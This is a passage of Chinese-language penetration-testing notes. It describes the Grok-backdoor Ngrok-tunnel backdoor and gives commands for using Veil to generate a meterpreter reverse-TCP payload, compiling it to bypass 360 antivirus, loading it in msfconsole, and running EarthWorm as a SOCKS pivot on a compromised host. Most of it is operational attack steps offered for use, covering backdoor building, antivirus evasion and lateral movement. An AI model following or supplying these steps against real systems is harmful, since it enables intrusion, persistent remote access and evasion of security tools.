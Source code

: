 Grok-backdoor 是一个简单的基于 python 的后门，它使用 Ngrok 隧道进行通信。Ngrok 后门可以使用 Pyinstaller 生成 windows，linux 和 mac 二进制文件。

虽然免杀，但如果开 win 防火墙会提示，生成后门时会询问是否捆绑 ngrok，选择 no 时，在被攻击机执行时需联网下载 ngrok，运行后，telnet 连接即可.

> https://github.com/deepzec/Grok-backdoor

### veil

这里，安装问题有点多，我用 kali-2018-32 安装成功，先安装下列依赖，后按照官方即可。

> apt-get install libncurses5*
>
> apt-get install libavutil55*
>
> apt-get install gcc-mingw-w64*
>
> apt-get install wine32

生成shell

> ./Veil.py
>
> use 1
>
> use c/meterpreter/rev_tcp 

在 win 用 mingw 下 gcc 编译 bypass 360

> gcc -o v.exe v.c -lws2_32 

使用之前生成的 veil.rc

> msfconsole -r veil.rc

一句话开启 http 服务，虚拟机里开启，在外访问虚拟机 ip 即可下载虚拟机文件：

> ```
> python -m SimpleHTTPServer 80
> ```

### ew

tools: 

> http://rootkiter.com/EarthWorm

新版 tools： 

> http://rootkiter.com/Termite/

****正向：****

**被攻击机(跳板)：** 

temp 目录下:

> unzip ew.zip
>
> file /sbin/init (查看 linux 位数)
>
> chmod 755 ew_for_Linux
>
> ./ew_for_Linux -s ssocksd -l 9999 (侦听 0.0.0.0:9999)
>
> netstat -pantu|grep 9999 (查看是否侦听成功)
